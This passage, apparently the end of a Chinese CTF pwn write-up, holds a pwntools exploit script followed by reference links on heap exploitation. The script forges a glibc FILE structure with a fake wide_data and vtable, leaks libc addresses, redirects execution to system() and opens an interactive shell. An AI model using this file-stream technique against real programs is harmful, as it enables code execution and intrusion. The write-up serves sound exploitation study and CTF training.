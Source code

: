```plain
fake_IO_struct += p64(1)                             #_flag2
fake_IO_struct = fake_IO_struct.ljust(0x88,b'\x00')
fake_IO_struct += p64(heap_base + 0x200)             #_lock = a writable address
fake_IO_struct = fake_IO_struct.ljust(0xa0,b'\x00')
fake_IO_struct += p64(fake_io_addr + 0x200)          #fake_wide_data
fake_IO_struct = fake_IO_struct.ljust(0xd8,b'\x00')
fake_IO_struct += p64(libc.sym['_IO_wfile_jumps'] - 0x20)        #fake_vatable
fake_IO_struct = fake_IO_struct.ljust(0x200,b'\x00')
fake_IO_struct += b'\x00'*0xe0 + p64(fake_io_addr + 0x2e0)
fake_IO_struct += b'\x00'*0x60 + p64(libc.sym['system'])

payload = b'a'*0x500 + fake_IO_struct

edit(4,payload)
edit(1,p32(0x2000)*10)
edit(8,b'\x00'*0x608 + p64(0x100))
sla(b': ',b'1')
sla(b': ',b'9')
leak("libc.address",libc.address)
leak("system",libc.sym['system'])

sla(b': ',b'1800')

p.interactive()
```

#### 参考文章

[PWN——House Of Einherjar CTF Wiki 例题详解 - 安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/251596)

[PWN 堆利用 unlink 学习笔记 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/541226698)

[堆溢出 off by one & off by null - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12861)
